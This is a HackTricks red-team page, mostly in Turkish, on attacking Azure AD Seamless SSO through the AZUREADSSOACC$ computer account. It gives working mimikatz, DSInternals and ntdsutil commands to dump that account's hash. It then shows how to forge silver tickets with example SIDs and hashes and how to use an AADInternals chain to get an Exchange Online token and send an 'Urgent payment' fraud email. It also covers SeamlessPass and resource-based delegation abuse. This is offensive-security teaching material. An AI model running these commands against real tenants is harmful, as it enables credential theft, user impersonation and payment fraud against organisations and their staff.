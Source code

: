 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO), **kullanıcıları kurumsal ağınıza bağlı kurumsal cihazlarında otomatik olarak oturum açtırır**. Etkinleştirildiğinde, **kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri gerekmez** ve genellikle kullanıcı adlarını bile girmeleri gerekmez. Bu özellik, kullanıcılarınıza ek bir yerel bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Temelde Azure AD Seamless SSO, kullanıcıları **yerel bir alan bağlı PC'de** olduklarında **oturum açtırır**.

Bu, hem [**PHS (Şifre Hash Senkronizasyonu)**](phs-password-hash-sync.md) hem de [**PTA (Geçiş Kimlik Doğrulama)**](pta-pass-through-authentication.md) tarafından desteklenmektedir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanmaktadır. Yapılandırıldığında, Azure AD Connect, yerel AD'de **AZUREADSSOACC`$` adında bir bilgisayar hesabı** oluşturur. `AZUREADSSOACC$` hesabının şifresi, yapılandırma sırasında **düz metin olarak Azure AD'ye gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** kullanılarak **şifrelenir** ve Azure AD, gönderilen şifreyi biletleri şifre çözmek için kullanır.

**Azure AD**, Kerberos **biletlerini** kabul eden bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Alan bağlı makinenin tarayıcısı, SSO için bu uç noktaya biletleri iletir.

### Yerel -> bulut

Kullanıcının **`AZUREADSSOACC$`** şifresi **asla değişmez**. Bu nedenle, bir alan yöneticisi bu **hesabın hash'ini ele geçirebilir** ve ardından **herhangi bir yerel kullanıcı senkronize edilmiş** Azure'a bağlanmak için **gümüş biletler** oluşturmak için kullanabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Hash ile artık **gümüş biletler** oluşturabilirsiniz:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Tarayıcıyı Başlatın:** Mozilla Firefox başlatılmalıdır.
2. **Tarayıcıyı Yapılandırın:**
* **`about:config`** sayfasına gidin.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) için tercihi belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişim:**
* Kuruluşun AAD alanı ile entegre bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/)dir.
4. **Kimlik Doğrulama Süreci:**
* Giriş ekranında, kullanıcı adı girilmeli ve şifre alanı boş bırakılmalıdır.
* Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, MFA etkinse atlatmaz
{% endhint %}

#### Dcsync olmadan Seçenek 2 - SeamlessPass

Bu saldırıyı **dcsync saldırısı olmadan** daha gizli bir şekilde gerçekleştirmek de mümkündür, [bu blog yazısında açıklandığı gibi](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Bunun için yalnızca aşağıdakilerden birine ihtiyacınız var:

* **Bir tehlikeye atılmış kullanıcının TGT'si:** Eğer bir tane yoksa ama kullanıcı tehlikeye atıldıysa, birçok araçta uygulanan sahte TGT delegasyonu hilesi kullanılarak bir tane elde edilebilir, örneğin [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) ve [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Eğer KRBTGT anahtarına sahipseniz, saldırıya uğrayan kullanıcı için gerekli TGT'yi oluşturabilirsiniz.
* **Bir tehlikeye atılmış kullanıcının NTLM hash'i veya AES anahtarı:** SeamlessPass, bu bilgi ile etki alanı denetleyicisi ile iletişim kurarak TGT'yi oluşturacaktır.
* **AZUREADSSOACC$ hesabı NTLM hash'i veya AES anahtarı:** Bu bilgi ve saldırı yapılacak kullanıcının Güvenlik Tanımlayıcısı (SID) ile bir hizmet bileti oluşturmak ve bulut ile kimlik doğrulamak mümkündür (önceki yöntemde olduğu gibi).

Son olarak, TGT ile [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) aracını kullanmak mümkündür:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Seamless SSO ile Firefox'u çalıştırmak için daha fazla bilgi [**bu blog yazısında**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) bulunabilir.

#### ~~Bulut yalnızca kullanıcılar için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Eğer Active Directory yöneticileri Azure AD Connect'e erişime sahipse, **herhangi bir bulut kullanıcısı için SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri** **bulut yalnızca kullanıcılar için de oluşturulabilir**. Tek gereklilik, SID'nin uygun bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Bulut yalnızca yönetici kullanıcıların SID'sini değiştirmek artık **Microsoft tarafından engellenmiştir**.\
Bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/) kontrol edin.
{% endhint %}

### On-prem -> Bulut üzerinden Kaynak Tabanlı Kısıtlı Delegasyon <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteyner veya OU'daki bilgisayar hesaplarını (`AZUREADSSOACC$`) yönetebilen herkes, **hesap üzerinde kaynak tabanlı kısıtlı delegasyonu yapılandırabilir ve ona erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Bulutundayım, herkesin e-postalarını okuyorum - Active Directory aracılığıyla Azure AD'yi hackleme](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
